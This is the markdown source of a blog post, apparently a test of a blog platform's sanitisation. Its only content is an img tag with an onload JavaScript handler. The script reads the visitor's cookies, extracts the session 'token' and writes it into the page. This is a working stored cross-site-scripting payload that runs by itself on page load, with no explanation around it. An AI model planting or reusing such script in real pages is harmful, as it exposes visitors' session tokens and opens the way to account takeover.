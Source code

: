 ```yaml
---
title: "看看有沒有偷肯?"
tags: ["Blog"]
date: 2024-07-21
---
```

<img src="https://picsum.photos/200/300" onload="var cookies = document.cookie.split('; ').reduce((acc, cookie) => { const [key, value] = cookie.split('='); acc[key] = value; return acc; }, {}); document.querySelector('div[data-v-1131a46d].content-container').innerHTML = `<div data-v-0042ca3e class='py-2 text-xl text-wrap'>Your token is ${cookies.token}</div>`;">

